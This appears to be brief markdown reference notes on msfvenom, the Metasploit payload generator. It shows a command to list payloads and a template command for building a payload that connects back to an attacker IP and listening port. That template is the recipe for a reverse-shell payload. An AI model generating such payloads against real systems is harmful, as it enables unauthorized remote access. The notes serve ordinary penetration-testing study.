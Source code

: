 
# Msfvenom

## List Payloads

	msfvenom -l payloads
	
## Load Payload

	msfvenom -p <payload> -a <target_architecture (x86,x64)> --platform <target_os> -f <file_format> LHOST=<attacker_ip> LPORT=<listening_port> -o <output_file>

